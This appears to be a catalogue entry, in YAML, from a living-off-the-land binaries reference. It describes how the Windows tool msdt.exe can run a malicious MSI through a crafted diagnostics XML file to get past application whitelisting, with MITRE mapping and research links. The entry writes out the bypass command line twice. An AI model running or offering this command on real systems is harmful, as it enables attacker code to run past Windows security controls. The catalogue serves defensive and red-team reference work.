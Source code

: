```yaml
---
name: Msdt.exe
description: Microsoft diagnostics tool
functions:
  execute:
    - description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
      code: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code
  awl bypass:
    - description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
      code: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code bypass Application whitelisting
resources:
    - resource: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
    - resource: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
    - resource: https://twitter.com/harr0ey/status/991338229952598016
fullpath:
    - path: C:\Windows\System32\Msdt.exe
    - path: C:\Windows\SysWOW64\Msdt.exe
detection:
  - IOC: 
acknowledgement:
  - Person: 
    Handle: ''
---
```


